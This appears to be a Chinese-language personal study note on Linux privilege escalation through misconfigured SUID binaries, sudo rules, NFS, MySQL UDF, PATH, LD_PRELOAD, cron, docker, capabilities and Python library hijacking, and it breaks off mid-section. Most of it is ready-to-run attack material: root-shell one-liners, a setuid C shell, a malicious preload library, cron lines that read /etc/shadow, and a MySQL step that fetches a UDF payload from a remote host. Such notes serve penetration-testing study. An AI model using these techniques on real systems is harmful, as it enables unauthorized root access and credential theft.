

[TOC]


# linux提权




## 敏感文件

```
/etc/init.d
/etc/cron.d 
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/passwd
/etc/shadow
/etc/at.allow
/etc/at.deny
/etc/crontab
/etc/cron.allow
/etc/cron.deny
/etc/anacrontab
/var/spool/cron/crontabs/root
/usr/lib
/lib
/etc/ld.so.conf
```


## 非漏洞提权

非漏洞提权本质上是由于配置不当而导致的

- SUID二进制提权
- sudo提权
- NFS配置不当提权
- PATH变量提权
- ld_preload提权
- corn提权
- docker提权
- lxd提权
- capability提权
- rbash绕过


#### SUID权限提权

SUID特殊权限仅适用于可执行文件，所具有的功能是，只要用户对设有 SUID 的文件有执行权限，那么当用户执行此文件时，会以文件所有者的身份去执行此文件，一旦文件执行结束，身份的切换也随之消失，其特点是：

- **只能设置二进制文件**
- **执行二进制文件的用户有可执行权**
- **执行二进制文件时会暂时获得程序拥有者的身份**
- **SUID权限只在程序执行过程中有效**

##### SUID权限示例

###### (1)禁止其他账户修改密码

1. root账户取消`/usr/bin/passwd`文件的SUID权限

   ```bash
   chmod u-s /usr/bin/passwd
   ```

2. 用其他账户修改密码会显示**鉴定令牌操作错误，密码未更改**

   ```bash
   passwd test
   ```

   


###### （2）设置和取消SUID权限

1. 复制`cat`二进制文件到当前目录下

   ```bash
   cp /usr/bin/cat ./
   ```

2. 设置权限，可以观察到原来拥有者的权限由rwx变成了rws

   ```bash
   chmod u+s cat  
   ```

3. 取消权限

   ```bash
   chmod u-s cat  
   ```


###### （3）查找拥有SUID权限的常规文件

```bash
find / -perm -u=s -type f 2>/dev/null
```

- `-perm`：指定权限

- `-type`：指定文件类型，f为普通文件类型
- `2>/dev/null`：错误重定向

###### 添加密码

`/etc/passwd`每一行代表一个用户，各字段含义如下：

| 字段  | 含义                                         |
| ----- | -------------------------------------------- |
| 字段1 | 用户名                                       |
| 字段2 | 口令，为x代表密码已经映射到/etc/shadow中去了 |
| 字段3 | UID                                          |
| 字段4 | GID                                          |
| 字段5 | 用户名全名称                                 |
| 字段6 | 用户家目录所在位置                           |
| 字段7 | shell类型                                    |

`/etc/shadow`是`/etc/passwd`的影子文件，该文件包括用户及被加密的密码以及其他`/etc/passwd`不能包括的信息，比如用户的有效期限。该文件只有拥有root权限才可以读取和操作。各字段含义如下：

| 字段  | 含义                                                         |
| ----- | ------------------------------------------------------------ |
| 字段1 | 用户名                                                       |
| 字段2 | **密码（已被加密），如果为x则代表用户无法登录**              |
| 字段3 | 上次修改口令的时间（自1970年1月1日到当前时间的天数）         |
| 字段4 | 两次修改口令间隔最少的天数                                   |
| 字段5 | 两次修改口令间隔最多的天数                                   |
| 字段6 | 提前多少天警告用户口令将过期；当用户登录系统后，系统登录程序提醒用户口令将要作废；如果是系统默认值，是在添加用户时由/etc/login.defs文件定义中获取，在PASS_WARN_AGE 中定义； |
| 字段7 | 在口令过期之后多少天禁用此用户；此字段表示用户口令作废多少天后，系统会禁用此用户，也就是说系统会不能再让此用户登录，也不会提示用户过期，是完全禁用； |
| 字段8 | 用户过期日期；此字段指定了用户作废的天数（从1970年的1月1日开始的天数），如果这个字段的值为空，帐号永久可用； |
| 字段9 | 保留字段                                                     |

`/etc/shadow`的密码字段由三部分组成：

- `$id`:加密算法，id为1采用md5，id为5采用SHA256，id为6采用SHA512
- `$salt`:某个固定长度的随机字符串，每次修改密码前都会重新生成该字符串
- `$encrypted`:加密密文，在加了salt之后使用对应的加密算法得来

比如：

```
$y$j9T$CsR4b7ZoFVbUOIPo9h.2D0$xkSRKgxixzIEtIbbrmMghG9OxDafQ06LIHTZX8EM2zA
```


##### 提权

###### cp提权

假设cp拥有suid权限，那么可以构造一个新的passwd文件，然后将这个文件替换`/etc/passwd`即可

1. 生成一个账户密码，密码为`123456`

   ```bash
   openssl passwd -1 -salt 1x2x3 123456
   ```

   生成的密码是：`$1$1x2x3$Uqf6bwD5B1MMBCx/yK/EA/`

2. 复制一份`passwd`文件

   ```bash
   cp /etc/passwd .
   ```

3. 然后往`passwd`中添加以下信息，格式按照`/etc/passwd`中的root账户格式即可

   ```bash
   root1:$1$1x2x3$Uqf6bwD5B1MMBCx/yK/EA/:0:0:root1:/root1:/usr/bin/bash
   ```

4. 将新的passwd文件对`/etc/passwd`进行替换，如果没有SUID权限，替换不会成功

   ```bash
   cp passwd /etc/passwd
   ```

5. 之后登录这个账户，然后测试是否拥有root权限

   ```bash
   cat /etc/shadow
   ```

   

###### find提权

其思路是find有一个exec参数可以在查找文件的同时执行命令，因此可以执行以下命令对`/etc/passwd`进行替换，当然，这依旧取决于cp命令设置了SUID权限，

```
find passwd -exec cp passwd /etc/passwd \;
```

结果的输出需要以分号来结束，在bash环境中分号代表代码块结束，所以需要进行转义


###### vim提权

vim实际调用的是`/usr/bin/vim.basic`，如果vim被root设置了SUID权限，那么任何用户都可以使用vim命令来编辑那些只能root用户编辑的文件。比如，通过vim编辑`/etc/sudoers`文件，可以为普通账户提供sudo权限（在sudoers文件中添加`usrname ALL=(ALL:ALL) ALL`）

使用vim进行编辑后要用`wq!`强制保存，因为即便可以运行vim，但`wq`只会要求你强制保存，因为文件显示只读

最后执行以下命令进行测试：

```bash
sudo cat /etc/shadow
```

###### 自己编写脚本并编译成二进制文件

1. 脚本内容，文件名`1.c`，0是root的uid

   ```c
   #include<stdio.h>
   #include<unistd.h>
   #include<sys/types.h>
   
   int main()
   {
   	setuid(0);
   	system("/bin/bash");
   	return 0;
   }
   ```

2. 使用gcc编译

   ```bash
   gcc 1.c -o shell
   ```

3. 用root账户给该文件赋予SUID权限

   ```bash
   chmod u+s shell
   ```

4. 使用普通账户执行该二进制文件并观察是否变成root的bash


#### sudo提权

`/etc/sudoers`是sudo权限的配置文件，属性必须为0411。sudo是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具，不仅减少了root用户的登陆和管理时间，同样也提高了安全性。

sudo不是对shell的一个代替，它是面向每个命令的。它的特性主要有这样几点：

- sudo能够限制用户只在某台主机上运行某些命令。
- sudo提供了丰富的日志，详细地记录了每个用户干了什么。它能够将日志传到中心主机或者日志服务器。
- sudo使用时间戳文件来执行类似的“检票”系统。当用户调用sudo并且输入它的密码时，用户获得了一张存活期为5分钟的票（这个值可以在编译的时候改变）。


##### `/etc/sudoers`

`/etc/sudoers`文件开头提到，必须由root使用`visudo`命令进行编辑，且最好不要直接编辑`/etc/sudoers`，而是在`/etc/sudoers.d`目录下单独添加配置文件

格式：` user/%group[tab键]host=(as_user:as_group)[space]cmd_path`

示例：

- 如果想要对一组用户进行定义，那么可以在组名前加上`%`

  ```
  %kali-trusted   ALL=(ALL:ALL) NOPASSWD:ALL
  ```

  允许`kali-trusted`组成员可以运行任何命令而不用输入自己的密码

- sudoers文件中的默认项

  ```
  root	ALL=(ALL:ALL) ALL
  ```

  允许root用户在任何主机上以任何组或用户的身份执行所有命令

- 自己添加的一项

  ```bash
  test	ALL=(ALL:ALL) NOPASSWD: /usr/bin/cat,/usr/bin/su
  ```

  允许test用户在任何主机上以任何组或用户的身份执行无需密码执行`cat`和`su`命令，另外，还要修改可能的覆盖，比如kali 2022中sudo组也要设置成免密码（或直接注释），否则前面的免密码就会设置失败

  ```
  %sudo	ALL=(ALL:ALL) NOPASSWD: ALL
  ```

- 除了以上，还可以在path中使用`*`和`!`

  ```
  test	ALL=(ALL:ALL) NOPASSWD: !/usr/bin/cat
  ```

  test用户无权执行`cat`命令，但仍可以在任何主机上以任何组或用户的身份执行其他命令，需要密码

  ```
  test	ALL=(ALL:ALL) !/usr/bin/*
  ```

  test用户无权执行`/usr/bin/`目录下的命令，但仍可以在任何主机上以任何组或用户的身份执行其他命令，需要密码

##### 提权

如果普通用户具有太多的权限，可以尝试使用`sudo su`或`sudo bash`进入root的bash环境中

也可以尝试使用`sudo vim`或`sudo visudo`打开sudoers文件添加一些命令然后使用`wq!`保存

如果遇到黑名单的情况，那么可以考虑改变可执行文件的路径然后执行，因为sudo在禁用命令的时候是通过可执行文件路径进行禁用的

如何检查一个用户对于哪些命令拥有权限：

```bash
sudo -l -U <用户名>
```


###### git提权

1. 进入git交互界面

   ```bash
   sudo git help config
   ```

   或者：

   ```bash
   sudo git -p help 
   ```

2. 在末行命令模式输入 `!/bin/bash` 或 `!'sh'` 即可完成提权 


###### find提权

```bash
sudo find -exec "/bin/bash" \;
```


###### perl提权

```bash
sudo perl -e 'exec "/bin/bash";'
```

###### python os提权

1. 脚本文件

   ```python
   import os 
   
   os.system("/bin/bash")
   ```

2. 执行

   ```bash
   sudo python3 ./1.py
   ```

###### less提权

1. 输入

   ```bash
   sudo less /etc/hosts
   ```

2. 然后输入`!bash`并回车即可完成提权


###### awk提权

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```


###### man提权

1. 输入

   ```bash
   sudo man man
   ```

2. 然后输入`!bash`并回车即可完成提权

###### 应用程序提权

- 环境变量

  ```bash
   sudo env /bin/bash
  ```

- ftp

  输入：

  ```bash
  ftp
  ```

  进入ftp命令行后再输入`/bin/bash`并回车即可完成提权


###### apt提权

apt是ubuntu系列的包管理工具，

APT 配置片段是一种用于自定义 APT 行为的文件。它们通常位于 `/etc/apt/apt.conf.d/` 目录下，并且可以包含各种选项和设置，用于控制APT的行为。

如果普通用户能够使用sudo执行apt，就可以提权

具体步骤如下：

1. 首先创建一个临时文件并**将其路径存储在变量** `TF` 中

   ```bash
   TF=$(mktemp)
   ```

2. 然后将以下文本输入该变量中

   ```bash
   echo 'DPkg::Pre-Invoke {"/bin/sh;false"}' > $TF		
   ```

   `'DPkg::Pre-Invoke {"/bin/sh;false"}'` 是一个 APT 配置片段，它指定了在 APT 运行任何命令之前要执行的命令。在这种情况下，它会尝试运行 `/bin/sh` 命令，但由于后面跟着 `false` 命令，所以它会立即失败并返回错误代码。

3. 使用apt

   ```bash
   sudo apt install -c $TF sl
   ```

   这条命令使用 sudo 来以超级用户权限运行 apt 命令，用于安装名为 sl 的软件包。`-c` 选项指定了一个配置文件，它的值为 \$TF 变量中存储的文件路径。这意味着在执行安装操作之前，APT 会读取 \$TF 文件中的配置信息。

   执行该命令，非特权用户就可以获得root权限。


###### pip提权

与apt提权类似

```bash
TF=$(mktemp -d)
echo "import os;os.execl('/bin/sh','sh', '-c','sh<$(tty)>$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

这些命令创建了一个临时目录，并在其中创建了一个 Python 包，该包包含一段用于打开交互式 shell 的代码。然后，它使用 `pip` 命令来安装该包，并在安装过程中执行其中的代码，从而在当前终端中打开一个交互式 shell。


###### zip提权

```bash
TF=$(mktemp -u)

sudo zip $TF /etc/hosts -T -TT 'sh #'
```

这里使用 `sudo` 来以超级用户权限运行 `zip` 命令，用于创建一个名为 `$TF` 的 zip 压缩文件，并将 `/etc/hosts` 文件添加到其中。`-T` 选项用于测试压缩文件的完整性，而 `-TT` 选项用于指定在测试失败时要运行的命令。在这种情况下，它会运行 `'sh #'` 命令，该命令会启动一个交互式 shell。


###### tmux提权

tmux是一个终端复用器，允许在单个窗口中同时访问多个会话。

```bash
sudo tmux
```

可以立即获得root权限


###### scp提权

scp允许在两个位置之间安全地复制文件和目录，在使用scp传输数据时，文件和密码都会被加密。

```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```


###### env提权

```bash
sudo env /bin/bash
```

该命令将以超级用户权限启动一个新的Bash shell会话


###### ftp提权

```bash
sudo ftp
! /bin/bash
```


#### NFS提权

NFS是network file system的缩写，用来挂载某个目录或文件进行共享，默认是**2049**端口。

NFS在文件传送或信息传送过程中依赖于RPC（Remote Procedure Call，远程调用）协议

##### 安装

- **环境：kali 2022**（注意环境，不同环境安装和相关的命令会有所不同）

- 安装：

  ```bash
  apt install nfs-kernel-server
  ```

  

##### 配置

- 配置文件`/etc/exports`

- 格式：`共享目录 主机1(权限) [主机2(权限)]`可同时授权多个主机及权限

- 主机

  - `*`：代表允许连接的主机

- 权限：

  - `ro`：只读
  - `rw`：读写
  - `sync`：所有数据在请求时写入共享
  - `async`：nfs 在写入数据前可以响应请求
  - `all_squash`：映射为匿名用户
  - `no_all_squash`：不做任何映射，登陆者该是什么身份就是什么身份
  - `root_squash`：root 用户的所有请求映射成匿名用户一样的权限（默认）
  - `no_root_squash`：允许客户端使用root身份登录
  - secure：nfs 通过 1024 以下的安全 TCP/IP 端口发送
  - insecure：nfs 通过 1024 以上的端口发送

  **配置多个权限，权限之间需要使用逗号分隔**

##### 命令

- 让配置立即生效：

  ```bash
  exportfs -r
  ```

- 重启相关的服务

  ```bash
  systemctl restart rpcbind.service
  systemctl restart nfs-kernel-server
  ```

  

- 查看共享目录信息

  ```bash
  exportfs -v
  ```

  或者查看挂载信息

  ```bash
  showmount -e
  ```

- 查看开放端口

  ```python
  netstat -antlp
  ```

  rpcbind是NFS中用来进行消息通知的服务，一般情况下运行在11、31端口，nfs端口为2049，查看这些端口即可

##### 提权

当nfs配置了读写权限，且允许客户端以root访问时就会存在安全隐患。

1. 配置nfs并重启相关服务

   ```
   /home *(rw,no_root_squash,insecure)
   ```

2. 将`/bin/bash`复制到`/home`目录下，并由root赋予`bash`文件SUID权限

3. 将nfs的共享目录挂载到另一台主机的某个目录上，注意，如果出现`mount.nfs: Operation not permitted`，则只需要在权限中多加一个insecure即可，因为nfs默认是secure的，**不允许客户端通过非特权端口访问**

   ```bash
   mount -t nfs 192.168.194.152:/home /tmp/nfs
   ```

4. 执行以下命令就会以root身份打开bash

   ```bash
   ./bash -p
   ```

   `-p`，打开特权模式，经过测试，命令必须如此才可以以root身份进入bash，`bash -p`或`bash`都是不行的

除了借助`bash`外，还可以借助`nano`来查看敏感文件的信息，注意，这里的提权是**借助nfs服务端在客户端提权**，因此实际命令的执行**针对的都是客户端，查看的敏感文件也都是客户端的**

```bash
./nano -p /etc/shadow
```

那么根据这种思路，如果攻击方准备一台服务器并赋予`bash`、`nano`等命令SUID权限，攻击方在入侵NFS客户端后本来只有普通账户的权限，但借助NFS配置不当，攻击方可以提权


#### MySql提权

MySQL的默认端口是3306，当知道了目标拥有MySQL服务，就可以使用nmap、msf等扫描工具进行扫描

##### nmap系列脚本

该系列脚本可以进行信息收集、暴力破解等操作

```bash
└─# ls /usr/share/nmap/scripts/mysql-*
/usr/share/nmap/scripts/mysql-audit.nse
/usr/share/nmap/scripts/mysql-brute.nse
/usr/share/nmap/scripts/mysql-databases.nse
/usr/share/nmap/scripts/mysql-dump-hashes.nse
/usr/share/nmap/scripts/mysql-empty-password.nse
/usr/share/nmap/scripts/mysql-enum.nse
/usr/share/nmap/scripts/mysql-info.nse
/usr/share/nmap/scripts/mysql-query.nse
/usr/share/nmap/scripts/mysql-users.nse
/usr/share/nmap/scripts/mysql-variables.nse
/usr/share/nmap/scripts/mysql-vuln-cve2012-2122.nse

```


##### msf信息收集

获取MySQL相关信息：

```bash
auxiliary/admin/mysql/mysql_enum
auxiliary/scanner/mysql/mysql_version
```

文件枚举和目录可写信息枚举：

```bash
auxiliary/scanner/mysql/mysql_file_enum
auxiliary/scanner/mysql/mysql_writable_dirs
```


##### sqlmap

通过使用sqlmap+sql注入来获取目标数据库的信息，具体请查看文档

[sqlmap-deelmind]:./sqlmap-deelmind.md

和

[sql注入]:./整理文档-SQL注入.md


##### mysql udf提权

udf，Userdefined function（用户自定义函数），是mysql的扩展。

当拥有对数据库读取和写入权限以后，就可以尝试udf提权，**从数据库root权限提升到系统的管理员权限**

###### 提权原理

引入恶意的udf.dll，比如`sys_eval()`函数

###### 使用条件

1. `secure_file_priv `为空，以下命令可查看该参数的值

   ```mysql
   mysql> show variables like '%secure_file_priv%';
   +------------------+-----------------------+
   | Variable_name    | Value                 |
   +------------------+-----------------------+
   | secure_file_priv | /var/lib/mysql-files/ |
   +------------------+-----------------------+
   ```

2. 拥有mysql账户，且可以insert和delete，拥有CREATE权限和FILE权限，以下命令查看当前数据库用户的权限：

   ```mysql
   select * from mysql.user where user = substring_index(user(), '@', 1)\G;
   ```

3. 对于windows系统，如果mysql版本小于5.1，则udf.dll文件存放在`C:\windows`或`C:\windows\system32`;如果mysql版本大于5.1，udf.dll文件必须放置在mysql安装目录的`lib/plugin`文件夹下

4. 对于linux系统，udf.so文件存放在`/usr/lib/mysql/plugin/`下

查看mysql 的安装位置：

```mysql
select @@basedir as basePath from dual ;

show variables like '%basedir%';
```

查看mysql版本：

```
mysql -V
```

###### 环境

- 靶机ip：192.168.194.133 

- 靶机mysql版本：

  ```
  mysql  Ver 14.14 Distrib 5.5.62, for debian-linux-gnu (x86_64) using readline 6.3
  ```

- 靶机为64位ubuntu 14.04

- 

###### linux udf 提权（失败，似乎是权限问题，暂未解决）

1. 如果`secure_file_priv`的值非空，那么在实际测试时可以修改配置文件，只需在配置文件my.cnf（linux版mysql）或my.ini（windows版mysql）中的`mysqld`下面添加

   ```
   secure-file-priv=""
   ```

   并重启mysql服务即可，之后测试能否下载远程的文件：

   ```mysql
   select load_file('\\\\192.168.194.160:80\test') into dumpfile "/tmp/test"
   ```

   当`/tmp/test`存在时说明成功下载。

2. 查看系统架构

   ```mysql
   mysql> show variables like '%compile%';
   +-------------------------+------------------+
   | Variable_name           | Value            |
   +-------------------------+------------------+
   | version_compile_machine | x86_64           |
   | version_compile_os      | debian-linux-gnu |
   +-------------------------+------------------+
   ```

   

3. 查看plugin插件目录路径

   ```mysql
   mysql> show variables like '%plugin%';
   +---------------+------------------------+
   | Variable_name | Value                  |
   +---------------+------------------------+
   | plugin_dir    | /usr/lib/mysql/plugin/ |
   +---------------+------------------------+
   ```

   

4. 寻找udf动态链接库文件，可以在以下两个地方找

   - sqlmap：

     ```bash
     └─# ls /usr/share/sqlmap/data/udf/mysql
     linux  windows
     ```

     使用sqlmap自带的cloak.py对sqlmap提供的动态链接库文件进行解码

     ```bash
     python3 /usr/share/sqlmap/extra/cloak/cloak.py -d -i ./lib_mysqludf_sys.so_
     ```

   - msf

     ```bash
     └─# ls /usr/share/metasploit-framework/data/exploits/mysql
     lib_mysqludf_sys_32.dll  lib_mysqludf_sys_64.dll
     lib_mysqludf_sys_32.so   lib_mysqludf_sys_64.so
     ```

5. ~~将so文件内容进行十六进制编码~~

   ```mysql
   select hex(load_file('lib_mysqludf_sys_64.so')) into outfile "udf_64.hex"
   ```

6. ~~将得到的十六进制编码写入目标机器的plugins目录下~~

   ```mysql
   select 0x<十六进制编码> dumpfile "/www/server/mysql/lib/plugin/udf.so"
   ```

   如果十六进制编码太长，就需要新建一个表，然后不断将数据分段拼接入表中的字段


7. 由于上一步过于麻烦，因此可以采用远程下载到指定目录中的方式：

   ```mysql
   select load_file('\\\\<ip>\udf.so') into dumpfile "/www/server/mysql/lib/plugin/udf.so"
   ```

   例如：

   ```mysql
   select load_file('//tmp/udf.so') into dumpfile "/usr/lib/mysql/plugin/udf.so";
   ```

   <font color='red'>todo:解决报错：ERROR 1 (HY000): Can't create/write to file '/usr/lib/mysql/plugin/udf.so' (Errcode: 13) mysql没有将文件下载到该目录的权限</font>

8. 调用udf添加mysql函数

   ```mysql
   create function sys_eval returns string soname 'udf.so';
   ```

9. 查看mysql是否新增了该函数

   ```mysql
   select * from mysql.func;
   ```

10. 执行该函数

    ```mysql
    select sys_eval('whoami');
    ```

    <font color='red'>todo:mysql版本为5.5，执行结果始终为null，原因暂时未知</font>

11. 删除自定义函数

    ```mysql
    DELETE FROM mysql.func WHERE name='sys_eval';
    ```

    注意，在删除自定义函数后需要重启mysql才可以再添加`sys_eval`函数


##### 基于msf的linux udf提权

由于上一小节失败，因此尝试使用msf进行udf提权，具体步骤如下：

1. 进入msf框架

   ```bash
   msfconsole
   ```

2. 选择模块

   ```
   use exploit/multi/mysql/mysql_udf_payload
   ```

3. 配置参数

   ```
   show options
   set RHOSTS 192.168.194.133
   set RPORT 3306
   set USERNAME localhost
   set PASSWORD 4444
   ```

4. 执行攻击

   ```
   exploit
   ```

最后仍然失败了，在远程上传动态链接库时就失败了，说明

#### PATH变量提权

找到PATH变量的值

```bash
echo $PATH
```

或

```bash
env |grep "^PATH"
```

或

```bash
cat /etc/profile
```

最后这个比较麻烦，因为可能还有其他环境变量出现在`/etc/profile.d`目录下的文件里

##### 提权

当给普通用户分配了个可执行程序，且该程序有suid权限，我们又知道程序会调用哪些命令（这些命令你无法修改，否则就是直接的SUID提权了），那么就可以结合PATH来进行提权。

PATH变量提权与SUID提权的区别在于，SUID提权针对一些命令可以直接通过参数去运行提权的命令或是做一些提权的操作，而**PATH提权针对那些本身无法做提权操作的命令**

1. 编译一个c程序(`1.c`)：

   ```c
   #include<stdio.h>
   #include<unistd.h>
   #include<sys/types.h>
   
   int main()
   {
           setuid(0);
           setgid(0);
           system("iostat");
           return 0;
   }
   ```

   ```bash
   gcc 1.c -o shell
   ```

2. 用root用户为这个程序赋予SUID权限（程序属于root）

   ```bash
   chmod u+s ./shell
   ```

3. 用普通用户新建一个文件`iostat`，内容为`/bin/bash`

   ```bash
   echo "/bin/bash" > iostat
   ```

   或者直接使用cp复制

   ```bash
   cp /bin/bash /tmp/iostat
   ```

4. 为该文件赋予权限，只需要让root用户有执行权即可

   ```bash
   chmod 010 iostat
   ```

5. 接下来就是要**让这个`iostat`文件比系统原有的`iostat`文件更快被找到**，因此需要修改环境变量，然后把自己写的`iostat`文件放在`/tmp`目录下

   ```bash
   export PATH=/tmp:$PATH
   ```

6. 普通账户的情况下执行`shell`即可完成提权

   ```bash
   ./shell
   ```

#### LD_PRELOAD提权

`LD_PRELOAD`是linux下的一个环境变量，用于指定程序运行前加载的动态链接库

添加环境变量名，在`/etc/sudoers`中添加：

```
Defaults	env_keep += LD_PRELOAD
```


##### 提权

定义一个恶意的so文件，然后在运行某个命令（该命令具有SUID权限或sudo权限）的时候来加载自己的so文件就可以实现提权

1. so文件代码

   ```c
   #include<stdio.h>
   #include<stdlib.h>
   #include<sys/types.h>
   
   void _init()
   {
   		unsetenv("LD_PRELOAD");
           setuid(0);
           setgid(0);
           system("/bin/bash");
           return 0;
   }
   ```

2. 编译so文件，需要指定`-fPIC -shared`参数以便进行公共调用。指定`-nostartfiles`表明该库不会调用系统的其他库

   ```bash
   gcc 1.c -fPIC -shared -o shell.so -nostartfiles
   ```

3. 直接运行下面命令，注意find需要有sudo权限

   ```bash
   sudo LD_PRELOAD=/home/username/shell.so find 
   ```

   即可完成提权


#### Corn定时任务提权

`/etc/crontab`文件中每一行就是一个定时任务，其格式为：**分 时 日 月 周 用户 定时执行的程序或脚本路径**

特殊符号：

| 特殊符号 | 含义           |
| -------- | -------------- |
| *        | 任何时间       |
| ,        | 不连续的时间   |
| -        | 连续的时间范围 |
| /        | 每间隔多少时间 |

##### corntab命令 常用参数

使用命令行进行设置

| 选项    | 功能                                                         |
| ------- | ------------------------------------------------------------ |
| -u user | 用来设定某个用户的 crontab 服务，例如 "-u demo" 表示设备 demo 用户的 crontab 服务，此选项一般有 root 用户来运行。 |
| -e      | 编辑某个用户的 crontab 文件内容。如果不指定用户，则表示编辑当前用户的 crontab 文件。 |
| -l      | 显示某用户的 crontab 文件内容，如果不指定用户，则表示显示当前用户的 crontab 文件内容。 |
| -r      | 从 /var/spool/cron 删除某用户的 crontab 文件，如果不指定用户，则默认删除当前用户的 crontab 文件。 |
| -i      | 在删除用户的 crontab 文件时，给确认提示。                    |

/etc/corn.allow文件中放允许使用corntab的用户，每行一个用户

/etc/corn.deny文件中放拒绝使用corntab的用户，每行一个用户


- 添加定时任务（自动打开vim编辑定时任务）

  ```
  crontab -e 
  ```

- 重启corntab

  ```
  systemctl restart crond
  ```

- 查看当前定时任务

  ```
  crontab -l
  ```

- 清除任务

  ```
  crontab -r
  ```

##### 提权

cron提权取决于配置了`/etc/corntab`允许被普通用户修改

```
* * * * * root cat /etc/shadow > /home/lcc/1.txt
```


如果vim具有SUID权限，那么可以使用vim在`/etc/crontab`中添加以下内容，并使用`wq!`强制保存即可完成提权

```
* * * * * root chmod u+s /bin/bash
```


#### docker提权

以root身份将普通用户加入到docker组中，不然普通用户不能运行docker

```bash
usermod -G docker username
```

在普通用户bash下输入

```bash
newgrp docker
```

就可以让普通用户**登入docker组**，然后拥有docker组的权限

##### 提权

1. 使用docker运行alpine镜像，然后将宿主机的`root`目录挂载搭配alpine的mnt目录下 

   ```bash
   docker run -v /etc:/mnt -it alpine
   ```

   除了`/etc`目录，也可以挂载其他关键的目录，如`/root`、`/usr/bin`

2. 运行以上命令后会自动进入容器，然后切换目录

   ```bash
   cd /mnt
   ```

3. 查看shadow文件

   ```
   cat shadow
   ```


#### Lxd提权（TODO：专门学习）

Lxc是一个系统容器，进程之间相互隔离，进程虚拟化，但是Lxc不能进行容器迁移，管理比较复杂，所以进行了升级，即使用Lxd来对Lxc进行管理

docker也是容器，但它是是应用程序容器，Lxc是系统容器，Lxd是管理Lxc的守护程序


##### 安装

```bash
sudo apt install lxd lxc lxc-templates
```

##### 提权

与docker类似

#### capability提权

capability与suid类似，可以分割root权限，然后给与普通用户不同的权限，每一种权限都代表一种特权

| 权限                    | 说明                                                         |
| ----------------------- | ------------------------------------------------------------ |
| CAP_AUDIT_CONTROL       | 启用和禁用内核审计;<br/>更改审计过滤规则;<br/>检索审计状态和过滤规则 |
| CAP_AUDIT_READ          | 允许通过多播网络连接套接字读取审计日志。                     |
| CAP_AUDIT_WRITE         | 将记录写入内核审计日志                                       |
| CAP_BLOCK_SUSPEND       | 使用可以阻止系统挂起的功能(epoll(7) EPOLLWAKEUP， /proc/sys/wake_lock) |
| CAP_BPF                 | 采用特权BPF操作;<br/>参见bpf(2)和bpf-helpers(7)。<br/>这个功能是在Linux 5.8中添加的，目的是将BPF功能与重载的CAP_SYS_ADMIN功能分开。 |
| CAP_CHECKPOINT_RESTORE  | 更新/proc/sys/kernel/ns_last_pid(参见pid_namespaces(7));<br/>使用clone3(2)的set_tid特性;<br/>为其他进程读取/proc/[pid]/map_files中的符号链接内容。<br/>该功能是在Linux 5.9中添加的，目的是将检查点/恢复功能与过载的CAP_SYS_ADMIN功能分离开来。 |
| `CAP_CHOWN`             | 对文件uid和gid进行任意更改                                   |
| CAP_DAC_OVERRIDE        | 绕过文件读、写和执行权限检查。(DAC是“discretionary access control”的缩写。) |
| **CAP_DAC_READ_SEARCH** | **绕过文件读权限检查和目录读执行权限检查**                   |
| CAP_FOWNER              | 忽略文件属主ID必须和进程用户ID相匹配的限制                   |
| CAP_SETUID              | 能够对进程uid进行更改的权限                                  |
|                         |                                                              |
|                         |                                                              |

suid针对某个用户给权限，而capability针对程序，并且有三个选项可选

- `i`，`inheriable`：表示是否可继承
- `p`，`permitted`：表示是否允许使用
- `e`，`effective`：表示特权是否有效 

##### 权限设置

`setcap`用于为指定的文件设置`capability`。

格式：`setcap capability+[ipe] path`

例如：

```bash
setcap CAP_SETUID+pe /usr/1.py
```


##### 权限读取

`getcap`用于显示每个指定文件的名称和`capability`。

格式：`getcap [option] path`

- `-r`：递归搜索
- `-v`：列出详细过程

例如：

```bash
getcap -rn /usr
```

##### 提权

如果为一个程序赋予了不适当的`capability`，就可能会被用来提权

1. 复制一个python3可执行文件到当前目录下

   ```bash
   cp /usr/bin/python3.10 ./python3
   ```

2. 赋予该文件`setuid`的权限

   ```bash
   setcap CAP_SETUID+pe ./python3
   ```

3. 在当前目录下编辑`1.py`文件

   ```python
   import os 
   os.setuid(0)
   os.system("/bin/bash")
   ```

4. 运行

   ```bash
   ./python3 ./1.py
   ```

5. 清空权限

   ```
   setcap -r ./python3
   ```

   

#### python库劫持提权

python有一个库的搜索路径列表，这意味着根据系统的错误配置以及用户使用它的方式，有机会进行权限提升，和PATH变量提权类似。

执行以下命令找到这些路径：

```bash
python -c "import sys;print('\n'.join(sys.path))"
```

如果这些路径下是任何人可以写的，然后在这些目录中放置名称与原有文件一样的文件，那么将会带来特权升级的风险，因为这个文件将在执行某个程序时通过import被加载

##### 提权

以下的操作都取决于python可执行文件`/usr/bin/python3.10`拥有设置uid的权限

1. 在/tmp目录下新建一个`requests.py`文件

   ```python
   import os
   os.setuid(0)
   os.system('/bin/bash')
   ```

2. 输入`python`进入python终端

3. 输入以下代码将`/tmp`添加到python环境变量中，这是临时的，退出终端就会消失

   ```python
   import sys;sys.path.insert(0,'/tmp');
   ```

4. 在终端输入

   ```python
